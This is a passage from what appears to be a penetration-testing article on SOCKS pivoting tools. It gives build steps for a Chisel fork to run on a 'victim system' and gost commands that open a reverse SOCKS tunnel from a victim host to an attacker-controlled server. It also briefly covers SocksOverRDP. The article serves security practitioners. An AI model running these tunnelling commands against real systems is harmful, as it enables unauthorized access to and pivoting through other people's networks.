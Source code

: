 Note that at the moment of writing of this article, the implementation of SOCKS5 on jpillora's GitHub does not yet support the UDP ASSOCIATE feature of SOCKS5. A fork[^7] and pull request[^8] created by the GitHub user Meteorite however *does* support this SOCKS5 feature. AMD64 Windows and Linux binaries (`chisel64.exe` and `chisel64`) can be built as follows:

```bash
git clone -b feature-socks-udp-associate https://github.com/Meteorite/chisel.git
cd chisel
GOOS=windows GOARCH=amd64 CGO_ENABLED=1 CC=x86_64-w64-mingw32-gcc go build --buildmode=exe -ldflags="-s -w" -o chisel64.exe main.go
GOARCH=amd64 CGO_ENABLED=1 go build -ldflags="-w -s" -o chisel64 main.go
```

After building, `chisel64` can be executed on the server whereas `chisel64.exe` can be used from the victim system.

### Gost
Gost[^9] is a tool written by ginuerzh (@ginuerzh) which stands for GO Simple Tunnel and is often used to bypass the Great Firewall of China (GFW). Gost supports a myriad of protocols and transport types. Additionally, gost also supports spawning a SOCKS server *and* a reverse TCP port forward. Combining these two functionalities, it is possible to spawn a SOCKS server on the client (victim) system and then providing access to that SOCKS server through the reverse port forward. Because gost supports so many options, protocols and transport types it might initially be a challenge to setup, however it is useful to blend into other traffic. Like for Chisel, in the Releases of the gost repository binaries are available for a variety of operating systems and architectures.

Example of how to setup a reverse SOCKS tunnel over the ssh protocol:
1. Launch the gost SSH server on an attacker-controlled server where the port (`1234`) should be accessible by the victim system: `gost -L=sshd://:1234`
2. Launch the SOCKS server and reverse port forward on the client (victim) system: `gost.exe -L=socks5://127.0.0.1:4321 -- -L=rtcp://:1080/127.0.0.1:4321 -F=sshd://1.1.1.1:1234`
3. Once the victim system is connected to the server, the server will open port `1080/TCP` which allows incoming SOCKS5 connections

Something to be aware of is that there are two different versions of gost: v2 which is the legacy version, and v3 which is the version that is rebuilt from scratch. The above commands are valid for v3 and have not been tested on v2. See below a table with links of the two versions.

| **Version**       | **2**                                       | **3**                                      |
|-------------------|---------------------------------------------|--------------------------------------------|
| **GitHub**        | <https://github.com/ginuerzh/gost>          | <https://github.com/go-gost/gost>          |
| **Download**      | <https://github.com/ginuerzh/gost/releases> | <https://github.com/go-gost/gost/releases> |
| **Documentation** | <https://v2.gost.run/en/>                   | <https://latest.gost.run/en/>              |
| **Notes**         | Legacy version of Gost                      |                                            |

## Other options
Besides reverse SOCKS servers there are also other situations in which socks can be used.

Consider for example the SocksOverRDP[^10] tool written by Balazs Bucsay (@xoreipeip) which adds a module to the RDP (`mstsc.exe`) or Citrix client on the attacker side. After launching the SocksOverRDP server component on the RDP/Citrix server side, the RDP/Citrix client opens up a SOCKS port through which the network in which the RDP/Citrix server resides can be accessed over SOCKS.


[^1]: <https://lofl-project.github.io/>
[^2]: <https://lolbas-project.github.io/>
[^3]: <https://gtfobins.github.io/>
[^4]: <https://github.com/bitsadmin/lofl>
[^5]: <https://github.com/rofl0r/proxychains-ng>
[^6]: <https://github.com/jpillora/chisel>
[^7]: <https://github.com/Meteorite/chisel/tree/feature-socks-udp-associate>
[^8]: <https://github.com/jpillora/chisel/pull/250>
[^9]: <https://github.com/go-gost/gost>
[^10]: <https://github.com/nccgroup/SocksOverRDP>
[^11]: <https://github.com/blackarrowsec/pivotnacci>
[^12]: <https://www.kali.org/tools/all-tools/>
[^13]: <https://www.blackarch.org/tools.html>
[^14]: <https://sourceforge.net/projects/sockscap64/>
[^15]: <https://www.proxycap.com/>
[^16]: <https://www.proxifier.com/>
[^17]: <http://www.dest-unreach.org/socat/>
[^18]: <https://github.com/ambrop72/badvpn>
[^19]: <https://github.com/xjasonlyu/tun2socks>
[^20]: <https://dnsmasq.org/>
[^21]: <https://github.com/xjasonlyu/tun2socks/wiki/Proxy-Models>